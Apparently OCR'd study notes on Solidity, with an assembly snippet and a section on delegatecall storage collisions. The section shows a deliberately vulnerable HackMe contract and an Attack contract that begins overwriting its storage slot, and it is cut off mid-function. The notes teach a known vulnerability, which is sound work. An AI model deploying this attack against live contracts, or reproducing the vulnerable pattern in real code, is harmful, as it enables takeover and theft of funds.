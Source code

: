 

#### Advanced Assembly

##### tuple

```solidity
assembly {
	function f() -> a, b {}
	let c, d := f()
}
```



### Virtual Stack Machines

##### Fundamentals



### Contract Safe

#### delegatecall

When call delegatecall function to udpate a storage variable, the modification of the variable is not based on the name of the variable, but on the storage location of the variable.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

contract Lib {
    uint public number;

    function updateNumber(uint _num) external {
        number = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public number;

    constructor(address _lib) public {
        lib = _lib;
        owner = msg.sender;
    }

    function updateNumber(uint _num) external {
        lib.delegatecall(abi.encodeWithSignature("updateNumber(uint256)", _num));
    }
}

contract Attack {
    address public lib;
    address public owner;
    uint public number;

    HackMe public hackMe;

    constructor(HackMe _hackMe) public {
        hackMe = HackMe(_hackMe);
    }

    function attack() external {
        hackMe.updateNumber(uint(uint160(address(this))));
```